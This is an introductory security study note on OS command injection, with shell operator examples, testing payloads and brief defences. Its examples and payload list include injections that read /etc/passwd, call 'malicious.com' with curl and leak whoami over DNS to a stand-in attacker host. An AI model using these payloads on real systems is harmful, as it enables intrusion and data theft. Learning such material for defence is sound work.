

# OS COMMAND INJECTION

## OS Common Injection

> An Attacker tricks the web application into executing operating system commands in the web application.

#### Operating System family

> There are two main families of operating systems commonly used in web applications:
>
> > Windows & Linux.

#### Commands

> Name of current user `whoami`
>
> Network Details for Windows `ipconfig/all` and for Linux `ifconfig`
>
> Network connection `netstat -antp`
>
> Running Processer for Windows is `tasklist` and for Linux `ps -ef`

### How It Works

> A web application which shows the weather.

```
https://webapplication.com/weather?city=mumbai
```

> An SQL Query Might be

```
SELECT temperature FROM weather WHERE city = 'mumbai' OR '1'='1';
```

> The web application run command to get the weather.

```
weather.sh --city=mumbai
```

> Without proper validation the attacker can tricks the command to the URL.

```
https://webapplication.com/weather?city=mumbai&&ls
```

> The web application run the commands

```
weather.sh --city=mumbai&&ls
```

> Which results in web application
>
> > Weather in mumbai : 24 C
> >
> > index.html
> >
> > about.html
> >
> > contact.html
>
> The output the attacker knows this is vulnerably to OS Command Injection which lead to revershell of the web application using revsershell.com

<figure><figcaption><p>OS Command Injection</p></figcaption></figure>

### Types of Command Injection

In-band Command Injection

> An Attacker is able to trick the web application into executing command on the web application which received a response/output of that executed command in the web application.
>
> > Shows Immediate results in the web application response.

Example

> A search function on a website allows user to search for products by name,
>
> Normally user search for '`apple`'.
>
> Attacker searches for '`apple; ls`'
>
> Server execute is search `apple; ls`
>
> Response will be display in web application.

Out of Band

> An Attacker is able to trick the web application into executing command on the web application but does not receive response in the web application and the attacker has to relay on indirect methods to confirm if the OS Out of band Command injection works
>
> This also known as Blind Injection or out or band injection.
>
> > Attacker  use external methods to confirm the command injected executed.

Example

> A search function on a website allows user to search for products by name,
>
> Normally user search for 'apple'.
>
> Attacker searches for 'apple; echo whoami > whoami.txt'
>
> Server execute is search apple; echo whoami > whoami.txt
>
> Attacker has to Directory Traversal or use /whoami.txt to check if the injection works.
>
> > If curl is in the Server use the CURL to confirm the injection
> >
> > > [https://webapplication.com/weather?city=mumbai&&](https://webapplication.com/weather?city=mumbai&\&ls) curl malicious.com/login.php
> > >
> > > So the server execute the Command is&#x20;
> > >
> > > weather.sh --city=mumbai&& curl malicious.com/login.php
> > >
> > > And attacker can monitor if the network traffic received then the Out of band works.


Command Injection Breaks the CIA.


### Executing Command Injection

Piping `|`

> Used to chain commands together, Passing the output of one command as input to another
>
> > It used for filtering data.
> >
> > `command1 | command2`&#x20;
> >
> > > `ls | grep 'txt'`

Single Ampersand &

> Runs the commands in background and returns to the console.
>
> > `command1 & command2`
> >
> > > `sleep 10 & echo "Done"`

And Operator &&

> Runs multiply command together but the first command should be succeeded to runs the seconds commands
>
> > `command1 && command2`
> >
> > > `mkdir newdir && cd newdir`

SemiColon ;

> Runs both command each after another regardless of command pass or fail.
>
> > `command1 , command2`
> >
> > > `cd /var/www ; ls`

Backticks

> Runs the backtick command and replace it with the command output.
>
> > `` command1 `command2` ``
> >
> > > `command2` runs first then the output of `command2` is passed as an argument to `command1`.
> > >
> > > > `` echo `date` ``

Dollar Sign Parentheses $()

> Runs the backets command and replace it with command output.
>
> > `command1 $(command2)`
> >
> > `command2` runs first then the output of `command2` is passed as an argument to `command1`
> >
> > > `echo $(date)`

### BlackBox

> Visit all the application pages that user can access.
>
> Enter multiply commands in one line using special characters(External commands) to see if the application runs them.&#x20;
>
> Looks for the application response for error indicating a vulnerability.
>
> Test for blind injection using ping or sleep commands
>
> > **In-band & Out-of-band Command Injection:**
> >
> > * **Shell Metacharacters:**
> >   * **Concatenate Commands:**
> >     * `&& cat /etc/passwd &`
> >     * `& cat /etc/passwd &`
> >     * `|| cat /etc/passwd &`
> >   * **Trigger Time Delay:**
> >     * `&& sleep 10 &`
> >     * `& sleep 10 #`&#x20;
> >     * `&& ping -c 10 127.0.0.1 &`
> >   * **Output to Web Root:**
> >     * `& whoami > /var/www/static/whoami.txt &`
> >     * `& nslookup attacker.com #`
> >   * **Out-of-Band Channel:**
> >     * `& nslookup attacker.server.com &`
> >     * `& nslookup $(whoami).attackerserver.com &`
> >     * `` & nslookup \whoami`.attackerserver.com &` ``

### Defense Against OS Command Injection

Avoid direct OS command injection

> Use Languge function to call OS commands example python which has os.listdir() instead of ls.

Blacklisting

> Block all the malicious characters like `;`, `&`, `|`, \`\`, `$()`, `>`, `<`, and others. and replace it with SPACE.

Defense in Dept

> use minimum privilege on the web application.&#x20;


## MindMap


OS Command Injection MindMap

